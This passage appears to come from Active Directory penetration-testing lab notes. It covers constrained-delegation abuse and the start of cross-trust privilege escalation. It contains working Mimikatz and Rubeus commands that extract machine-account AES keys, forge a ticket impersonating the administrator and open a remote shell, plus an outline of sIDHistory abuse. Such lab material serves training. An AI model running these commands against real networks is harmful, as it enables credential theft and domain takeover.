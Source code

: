 Now, let's get the privileges of dcorp-studentx$ by extracting its AES keys:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Use the AES key of dcorp-studentx$ with Rubeus and access dcorp-mgmt as ANY user we want:
```powershell
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

winrs -r:dcorp-mgmt cmd.exe
```


Learning Objective 17

- Find a computer object in dcorp domain where we have Write permissions.
- Abuse the Write permissions to access that computer as Domain Admin.

> **More info about Constrained Delegation - Kerberos Only in CRTE**

> I'll publish later, dont worry ;)



# Privesc - Across Trusts

- Across Domains - Implicit two way trust relationship.
- Across Forests - Trust relationship needs to be established.


## Child to Parent

- sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.

sIDHistory can be abused in two ways of escalating privileges within a forest:
```
- krbtgt hash of the child
- Trust tickets
```

### Child to Parent Trust Flow
